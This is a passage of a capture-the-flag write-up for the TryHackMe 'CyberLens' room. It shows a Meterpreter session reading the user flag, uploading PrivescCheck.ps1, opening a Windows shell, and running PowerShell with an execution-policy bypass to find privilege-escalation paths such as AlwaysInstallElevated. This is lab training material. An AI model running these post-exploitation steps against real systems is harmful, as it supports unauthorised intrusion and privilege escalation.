 
### flags
`1.` What is the **user flag**? 
```bash
Listing: C:\Users\CyberLens\Desktop
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  527   fil   2016-06-21 21:06:17 +0530  EC2 Feedback.website
100666/rw-rw-rw-  554   fil   2016-06-21 21:06:23 +0530  EC2 Microsoft Windows Guide.website
100666/rw-rw-rw-  282   fil   2023-06-07 01:18:33 +0530  desktop.ini
100666/rw-rw-rw-  25    fil   2023-06-07 01:24:19 +0530  user.txt

meterpreter > cat user.txt
THM{REDACTED}
meterpreter >
```
Next to **access** the **admin** **flag**, we need to obtain a **shell** as **system.**

---

## shell as system
To find any **vectors** for gaining a **system shell**, I will use **[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck)** for **enumeration.**
```shell
meterpreter > upload PrivescCheck.ps1
[*] Uploading  : TryHackMe/CyberLens/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Uploaded 201.07 KiB of 201.07 KiB (100.0%): PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Completed  : TryHackMe/CyberLens/PrivescCheck.ps1 -> PrivescCheck.ps1
```
Next, we **switch** from the **Meterpreter shell** to a **Windows shell**
```shell
meterpreter > shell
Process 4792 created.
Channel 6 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\CyberLens\Desktop>
```

and **execute** `PrivescCheck.ps1` for **enumeration.**
```shell
C:\Users\CyberLens>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

????????????????????????????????????????????????????????????????
?                 ~~~ PrivescCheck Summary ~~~                 ?
????????????????????????????????????????????????????????????????
 TA0004 - Privilege Escalation
 - AlwaysInstallElevated ␦ High
 - Latest updates installed ␦ Medium
 TA0006 - Credential Access
 - LSA Protection ␦ Low
 - Credential Guard ␦ Low

WARNING: To get more info, run this script with the option '-Extended'.
```
> Okay, we **found** something **interesting**, but we need further **research** on `AlwaysInstallElevated`
{: .prompt-info }
---
